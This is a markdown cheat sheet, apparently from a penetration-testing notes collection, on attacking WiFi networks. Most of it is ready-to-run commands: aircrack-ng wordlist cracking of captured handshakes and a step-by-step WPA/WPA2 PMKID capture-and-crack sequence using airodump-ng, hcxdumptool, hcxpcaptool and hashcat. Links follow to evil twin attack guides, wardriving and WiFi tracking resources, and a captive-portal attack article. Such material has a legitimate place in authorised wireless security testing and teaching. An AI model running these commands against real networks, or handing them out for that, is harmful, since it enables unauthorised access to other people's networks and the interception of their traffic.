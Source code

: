 # Wireless

##
```
aircrack-ng captured.cap​
aircrack-ng -a 2 -b <BSSID> -w wordlist captured.cap​
```
## WPA/WPA2 PMKID

STEP 1:
https://github.com/ZerBea/hcxdumptool
https://github.com/aircrack-ng/aircrack-ng

STEP 2: Find target BSSID:
airodump-ng <int>

STEP 3: Add BSSID in ‘bssid.txt’ and use ‘hcxdumptool’:
hcxdumptool -i <int> --filterlist=bssid.txt --filermode=2 --enable_status=2 -o pmkid.pcap

STEP 4: Extract PMKID into hashcat format for cracking:
(link: https://github.com/ZerBea/hcxtools) github.com/ZerBea/hcxtools
hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap

STEP 5: Crack:
hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt

> https://mobile.twitter.com/netmux/status/1097908867374215168

## WPA enterprise (evil tween attack)
- https://pwn.no0.be/exploitation/wifi/wpa_enterprise/
- https://rootsh3ll.com/evil-twin-attack/

## WiFi Wardriving with Android
- WiGLE WiFi Wardriving: https://play.google.com/store/apps/details?id=net.wigle.wigleandroid&hl=en

## Tracking
- Tracking All the WiFi Things: https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/
## References

### New References
- How to Make a Captive Portal of Death: https://medium.com/bugbountywriteup/how-to-make-a-captive-portal-of-death-48e82a1d81a
